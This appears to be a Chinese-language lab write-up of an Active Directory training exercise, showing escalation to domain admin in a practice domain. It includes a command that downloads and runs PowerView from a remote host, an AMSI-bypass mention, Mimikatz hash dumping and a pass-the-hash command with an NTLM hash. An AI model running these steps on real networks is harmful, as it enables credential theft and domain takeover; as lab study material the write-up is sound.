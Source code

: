 



● Domain user on one of the machines has access to a server where a domain admin is logged in.
Identify:

从BloodHound可以知道svcadmin登录过dcorp-mgmt

![image-20220306200817797](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306200817797.png)

− The domain user

```svcadmin```

− The server where the domain admin is logged in.

```dcorp-mgmt```



● Escalate privileges to Domain Admin
− Using the method above.
−  Using derivative local admin 

这里采取从jenkins得到的管理员权限横向移动到```dcorp-mgmt```进行域权限提升的方法

引入powerview

```
iex (iwr http://172.16.100.66/PowerView.ps1 -UseBasicParsing)
```



记得要bypass ps和AMSI

![image-20220306201616173](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306201616173.png)

可以看到可以横向到```dcorp-mgmt.dollarcorp.moneycorp.local```

引入mimikatz，导出ciadmin的哈希

![image-20220306202132064](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306202132064.png)



使用pass the hash，用收集回来的NTML新开一个ciamdin的shell

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:ciadmin /domain:dollarcorp.moneycorp.local /ntlm:e08253add90dccf1a208523d02998c3d /run:powershell.exe"'
```

横向到dcorp-mgmt

![image-20220306202552460](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306202552460.png)

引入mimikatz，导出scvadmin的NTML，这里甚至还有明文密码

![image-20220306202814646](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306202814646.png)

至此我们已经拿到了域管理员svcadmin的NTML

```